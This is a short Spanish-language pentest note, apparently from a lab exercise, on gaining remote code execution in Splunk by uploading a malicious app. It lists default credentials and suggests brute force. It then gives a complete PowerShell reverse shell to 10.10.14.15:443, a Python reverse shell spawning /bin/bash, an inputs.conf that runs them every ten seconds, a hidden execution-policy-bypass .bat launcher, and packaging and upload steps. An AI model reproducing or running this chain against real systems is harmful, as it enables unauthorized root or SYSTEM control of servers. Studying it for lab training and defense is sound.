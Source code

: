 - Herramienta de recopilación, analisis y visualización de datos.
- Suele correr como root o SYSTEM.
- Corre por defecto en el puerto 8000
- La version free no requiere autenticación.
-  Default credentials: admin:changeme.
-  SI las credenciales anteriores no funcionan, siempre sirve hacer fuerza bruta con weak passwords.
-  Viene con python instalado.


### Enumeration

    https://10.129.201.50:8000/en-US/app/launcher/home

### Exploitation

Podemos tener RCE si creamos una aplicación en python, batch o Powershell.

##### 1) Creamos una aplicación con la estructura de directorios:

        splunk_shell/
        ├── bin
        └── default

##### 2) En la carpeta bin metemos los scripts que vamos a correr y en el directorio default tenemos que poner los inputs.conf

###### Script de shell reversa en powershell si el server es windows:

        #A simple and small reverse shell. Options and help removed to save space. 
        #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
        $client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

###### Script en python si el server es Linux:

        import sys,socket,os,pty
        
        ip="attacker-ip-here"  
        port="attacker port here"  
        s=socket.socket()  
        s.connect((ip,int(port)))  
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn('/bin/bash')  

##### 3)El inputs.conf
Este es el archivo que le dice a splunk qué script debe correr. 

        [script://./bin/rev.py]
        disabled = 0  
        interval = 10  
        sourcetype = shell 
        
        [script://.\bin\run.bat]
        disabled = 0
        sourcetype = shell
        interval = 10

##### 4)Necesitamos un .bat que corra la powershell una vez deployada la app.

        @ECHO OFF
        PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
        Exit

##### 5) Una vez esto está creado debemos pasarlo a un tar.
        tar -cvzf updater.tar.gz splunk_shell/

##### 6) Subir e instalar la aplicación:

        https://10.129.201.50:8000/en-US/manager/search/apps/local

##### 7)Vamos a install app from file  e iniciamos un listener e instalamos la app
Ni bien se instale, la shell va a correr.
        
